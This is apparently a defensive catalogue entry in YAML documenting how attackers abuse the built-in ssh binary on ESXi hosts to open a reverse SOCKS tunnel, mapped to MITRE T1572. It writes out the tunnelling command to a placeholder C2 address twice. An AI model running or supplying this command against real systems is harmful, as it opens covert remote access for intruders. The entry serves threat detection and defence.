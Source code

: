 ```yaml
---
Name: ssh
Description: Inbuilt SSH client used to remote port-forward using a tunnel.
Author: 'Janantha Marasinghe @blueteam0ps_'
Created: 2025-01-24
Commands:
  - Command: ssh –fN -R 127.0.0.1:<SOCKS port> <user>@<C2 IP address>
    Description: SSH client used to create a tunnel.
    Usecase: An adversary uses the native SSH binary to create a tunnel to remote port-forwarding to their C2 host.
    Category: Tunnel Traffic
    Privileges: User
    MitreID: T1572
    OperatingSystem: ESXi
    ProceduralExamples:
    - ssh –fN -R 127.0.0.1:<SOCKS port> <user>@<C2 IP address>
Full_Path:
  - Path: /bin/ssh
  - Path: /sbin/ssh  
Resources:
  - Link: https://www.sygnia.co/blog/esxi-ransomware-ssh-tunneling-defense-strategies/
Acknowledgement:
  - Person: Ren Jie Yow
  - Person: Zhongyuan Hau (Aaron)

---
```

